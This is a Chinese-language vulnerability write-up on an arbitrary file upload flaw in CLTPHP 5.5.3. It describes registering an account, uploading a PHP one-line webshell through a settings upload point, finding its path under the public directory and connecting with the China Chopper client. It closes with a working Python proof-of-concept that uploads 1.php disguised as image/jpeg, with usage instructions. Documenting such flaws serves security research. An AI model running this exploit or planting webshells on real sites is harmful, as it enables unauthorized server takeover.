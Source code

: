 CLTPHP 5.5.3 任意文件上传漏洞
=============================

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

![2.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId24.png)

随便注册一个用户，登陆后在设置里找到一个上传点

![3.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId25.png)

上传我们的一句话木马

![4.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId26.png)

查看返回包，上传成功

![5.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId27.png)

访问失败，猜测返回路径可能不是绝对路径

![6.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId28.png)

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

![7.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId29.png)

菜刀连接

![8.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId30.png)

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

![9.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId32.png)

cmd执行 `python payload.py www.0-sec.org`

![10.png](resource/CLTPHP5.5.3任意文件上传漏洞/media/rId33.png)

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
